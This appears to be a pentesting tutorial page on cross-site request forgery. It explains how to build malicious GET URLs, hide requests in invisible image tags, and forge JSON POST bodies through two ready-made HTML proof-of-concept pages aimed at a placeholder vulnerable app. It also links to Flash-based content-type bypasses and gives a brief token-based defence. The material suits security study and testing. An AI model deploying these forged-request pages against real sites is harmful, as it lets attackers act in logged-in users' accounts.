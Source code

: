 # Cross Site Request Forgery

Cross site Request Forgery (CSRF) attacks forces the user to perform action the he did not intend to perform. This usually (only?) possible by creating a malicious URL-address that the victim executes in his browser, while he is logged in.

## What's the worst that can happen?

The attacker can make actions for the user. For example change the email-address, make a purchase, or something like that. So it could be used to change the adress, and reset the password by sending an email.


## How to perform it?

1. Investigate how the website works
First you need to know how the application works. What the endpoints are.

2. Construct your malicious URL
Now you just construct the URL. Either using get or post.

- `GET`
If you use only `GET` you can construct the URL like this:

http://example.com/api/createUser?name=Jose

- `POST`

If the requests are sent as `POST` you need to make the victim run a link that where you control the server. So that you can add the arguments in the body.

There is one creat trick for this. It is to use the image-tag. Because the image-tag can be used to automatically retrieve information from other sites. If you have an image on your site but it is referenced to

`<img style="display: none" src="http://example.com/image.jpg">`



## CSRF with body type JSON

If the body data need to be in the json-format this can be achived in two ways.


- New way


```html
<html>
<title>JSON CSRF POC</title>
<body>
<center>
<h1> JSON CSRF POC </h1>
<script>
fetch('http://vul-app.com', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"name":"attacker","email":"attacker.com"}'});
</script>
<form action="#">
<input type="button" value="Submit" />
</form>
</center>
</body>
</html>

```

- Old way

```html
<html>
<title>JSON CSRF POC</title>
<center>
<h1> JSON CSRF POC </h1>
<form action=http://vul-app.com method=post enctype="text/plain" >
<input name='{"name":"attacker","email":"attacker@gmail.com","ignore_me":"' value='test"}'type='hidden'>
<input type=submit value="Submit">
</form>
</center>
</html>
```


### CSRF - Bypassing content-type application/json

It might be that the server is checking the content-type of the request, and rejects it if it is not `application/json`.
In a form-request it is not possible to set the content-type to application/json. And if it is a XHR request changing the content-type will make it a non-simple request, resulting in a pre-flight request.


If a user has flash enabled in the browser it is possible to attack the user with CSRF. 

There are two ways.


https://blog.appsecco.com/exploiting-csrf-on-json-endpoints-with-flash-and-redirects-681d4ad6b31b
https://www.geekboy.ninja/blog/exploiting-json-cross-site-request-forgery-csrf-using-flash/






## Protection

The only real solution is to use unique tokens for each request.



### References


http://tipstrickshack.blogspot.cl/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html

https://www.owasp.org/index.php/Testing_for_CSRF_(OTG-SESS-005)

https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
